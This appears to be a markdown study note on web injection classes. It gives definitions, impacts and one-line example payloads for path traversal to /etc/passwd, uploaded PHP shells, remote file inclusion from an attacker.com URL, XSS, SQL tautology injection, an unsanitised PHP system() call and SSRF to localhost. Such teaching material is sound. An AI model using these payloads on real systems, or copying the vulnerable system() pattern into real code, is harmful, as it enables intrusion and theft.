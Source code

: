 ## What is an Injection?

**Injection** occurs when untrusted input is sent to a server-side interpreter (e.g., PHP, Bash, SQL, etc.) and is executed as part of a command or query.

- **Root Cause**: Improper handling or validation of user-supplied input.
    
- **Impact**: Code execution, data leakage, privilege escalation, server compromise.
    
- **Common Targets**: File paths, OS commands, database queries, HTML/JavaScript content, URLs.
    

---

## Injection Types

### 1. **Local File Inclusion (LFI)**

- **Definition**: Occurs when a web app allows users to include files from the local server's filesystem.
    
- **Impact**: Disclosure of sensitive files (e.g., `/etc/passwd`), pivoting.
    
- **Example**:
    
    ```
    page.php?file=../../../../etc/passwd
    ```
    

---

### 2. **Uploaded File Vulnerabilities**

- **Definition**: Occurs when the server accepts and stores user-uploaded files without proper validation.
    
- **Impact**: RCE, Privilege Escalation
    
- **Example**:
    
    - Uploading `shell.php`, then accessing it via:
        
        ```
        http://server/uploads/shell.php
        ```
        

---

### 3. **Remote File Inclusion (RFI)**

- **Definition**: The server includes files from remote URLs, allowing attacker-controlled external scripts to run.
    
- **Impact**: Phishing via fake pages.
    
- **Examples**:
        
    - Inject malicious JS:
        
        ```
        ?page=http://attacker.com/malicious.js
        ```
        

---

### 4. **Cross-Site Scripting (XSS)** 

- **Types**: Reflected, Dom-based and Stored XSS.

- **Definition**: Injection of malicious JavaScript into pages viewed by other users.
	    
- **Impact**: Session hijacking, keylogging, redirection, defacing.
    
- **Example**:
    
    ```
    ?msg=<script>alert('XSS')</script>
    ```
    

---

### 5. **Database Injections

- **Definition**: Inserting untrusted input into SQL queries without sanitization.
    
- **Impact**: Authentication bypass, data leakage, full DB compromise.
    
- **Example**:
    
    ```
    ' OR '1'='1
    ```
    

---

### 6. **Command Injection**

- **Definition**: Unsanitized input is passed directly to system-level commands (e.g., via `system()`).
    
- **Impact**: Remote Code Execution (RCE), full shell access.
    
- **Example**:
    
    ```php
    system($_POST["cmd"]);  // attacker sends: cmd=whoami
    ```
    

---

### 7. **Server-Side Request Forgery (SSRF)**

- **Definition**: The server makes HTTP requests on behalf of the attacker to internal services.
    
- **Impact**: Pivoting, Information Disclosure, Persistence.
    
- **Example**:
    
    ```
    ?url=http://localhost:8000/admin
    ```